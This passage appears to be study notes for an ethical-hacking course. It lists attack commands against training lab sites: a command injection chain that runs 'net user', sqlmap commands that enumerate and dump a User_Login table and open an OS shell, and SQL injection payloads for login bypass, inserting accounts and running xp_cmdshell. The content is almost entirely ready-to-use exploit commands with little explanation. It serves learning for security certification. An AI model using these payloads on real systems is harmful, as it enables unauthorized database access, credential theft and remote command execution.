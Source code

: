 ![](https://i.imgur.com/eIHvZqn.png)



###### Clickjacpoc

Clickjacpoc - https://github.com/Raiders0786/ClickjackPoc

###### Commadn Injection RCE
ping 127.0.0.1 | hostname | net user


## Module 15: SQL Injection 

### SQLMAP Extract DBS
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
###### Extract Tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
###### Extract Columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
###### Dump Data
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
###### OS Shell to execute commands
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
###### Login bypass
blah' or 1=1 --
###### Insert data into DB from login
blah';insert into login values ('john','apple123');
###### Create database from login
blah';create database mydatabase;
###### Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --

### Low SQLMAP

 `sqlmap -u "http://192.168.1.111:8001/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=6f68acb14482d2b591b30f6bf4cba763;security=low" -p id -v --dbs`

### Medium SQLMAP

`sqlmap -u "http://192.168.1.107:8001/vulnerabilities/sqli/#"  --cookie="PHPSESSID=59d6f8d0984c4563d68cdbfa2bb6ccbf;security=medium" --data="id=1&Submit=Submit" -p id --random-agent -v  --dbs`

### High SQLMAP
`sqlmap -u "http://192.168.1.111:8001/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=6f68acb14482d2b591b30f6bf4cba763;security=high" 
--data="id=1&Submit=Submit" -p id --second-url http://192.168.1.111:8001/vulnerabilities/sqli/ --dbs --flush-session`
